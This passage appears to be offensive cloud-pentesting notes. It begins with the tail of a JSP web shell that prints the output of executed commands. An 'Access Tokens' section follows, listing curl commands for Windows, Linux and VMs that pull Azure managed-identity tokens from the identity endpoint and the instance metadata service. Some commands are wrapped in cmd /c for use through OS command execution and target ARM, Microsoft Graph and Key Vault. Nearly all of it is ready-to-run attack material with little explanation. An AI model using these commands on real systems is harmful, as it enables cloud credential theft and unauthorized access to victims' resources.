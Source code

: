 ```java
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
out.println(disr);
disr = dis.readLine();
}
}
%>
</PRE>
</BODY>
</HTML>
```

# Access  Tokens
- Request Access Tokens
- Windows: `curl "%IDENTITY_ENDPOINT%?resource=https://management.azure.com&apiversion=2017-09-01" H secret:%IDENTITY_HEADER%`
- Linux: `curl H "Secret: $IDENTITY_HEADER" "IDENTITY_ENDPOINT?apiversion=2017-09-01&resource=https://management.azure.com/"`
- VMs: `curl H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/identity/oauth2/token?apiversion=2021-02-01&resource=https://management.azure.com/"`

- OS Command Execution - Request Access Tokens
	- ARM Access Token
		- `curl "http://127.0.0.1:41407/msi/token/?resource=https://management.azure.com&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"`
		- `cmd /c curl "http://127.0.0.1:41407/msi/token/?resource=https://management.azure.com&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"`
	- MS Graph Access Token
		- `curl "http://127.0.0.1:41407/msi/token/?resource=https://graph.microsoft.com&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"`
		- `cmd /c 'curl "http://127.0.0.1:41407/msi/token/?resource=https://graph.microsoft.com&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"'`
	- Key Vault Access Token
		- `curl "http://127.0.0.1:41407/msi/token/?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"`
		- `cmd /c 'curl "http://127.0.0.1:41407/msi/token/?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"'`

